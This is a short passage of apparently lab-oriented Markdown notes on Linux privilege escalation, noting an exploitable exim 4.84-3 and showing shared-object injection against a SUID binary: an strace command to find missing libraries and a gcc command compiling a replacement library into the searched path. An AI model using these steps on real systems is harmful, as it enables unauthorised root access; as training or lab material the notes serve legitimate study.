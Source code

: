 - we can see the details of every with set user or group id
- we can expoit exim-4.84-3



#### shared object



```bash
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

![image-20200814222048147](linuxPrivesc.assets/image-20200814222048147.png)



```bash
mkdir /home/user/.config

gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```

![image-20200814222247159](linuxPrivesc.assets/image-20200814222247159.png)




